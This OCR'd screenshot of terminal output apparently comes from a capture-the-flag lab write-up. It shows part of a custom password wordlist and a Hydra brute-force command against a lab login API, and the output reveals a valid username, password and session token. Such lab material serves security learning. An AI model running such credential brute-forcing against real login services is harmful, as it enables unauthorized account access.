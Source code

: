 ```
violet5
violet6
violet7
violet8
violet9
white0
white1
white2
white3
white4
white5
white6
white7
white8
white9
yellow0
yellow1
yellow2
yellow3
yellow4
yellow5
yellow6
yellow7
yellow8
yellow9

┌──(witty㉿kali)-[~/Downloads]
└─$ hydra -l james -P wordlist_hackernote 10.10.247.168 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-16 14:08:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.247.168:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[80][http-post-form] host: 10.10.247.168   login: james   password: blue7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-16 14:09:26

using burp intruder

lenght different 265

HTTP/1.1 200 OK

Content-Type: application/json

Set-Cookie: SessionToken=6481deabea9cee5ddae59dcc34e0f55b; Path=/

Date: Thu, 16 Mar 2023 18:11:55 GMT

Content-Length: 71

Connection: close

{"SessionToken":"6481deabea9cee5ddae59dcc34e0f55b","status":"success"}

after login

HTTP/1.1 200 OK
```
